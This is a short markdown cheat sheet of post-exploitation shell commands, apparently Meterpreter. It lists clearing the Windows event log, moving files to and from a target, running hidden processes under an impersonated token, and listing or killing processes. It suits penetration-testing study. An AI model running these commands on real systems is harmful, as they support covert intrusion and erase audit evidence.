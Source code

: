 - clears the windows event log


```
clearev
```

- Downloads file 

```
download <source> <destination>
```

- Loads a file in VIM and allows you to edit it 

```
edit <filename>
```

- executes a command on the target host 
  - -i allows you to interact with the process after creation
  - -H creates a hidden process
  - -a can be used to pass an argument to the command
  - -t executes the process with the currently impersonated thread token

```
execute -f <command> -i -H
```

- Get the user that you are running as:

```
getuid
```

- delete a file 

```
del <file>
```

- upload a file 

```
upload <source> <destination>
```

- Get systeminfo

```
sysinfo
```

- Kill a process

```
kill <pid>
```

- List running processes

```
ps
```
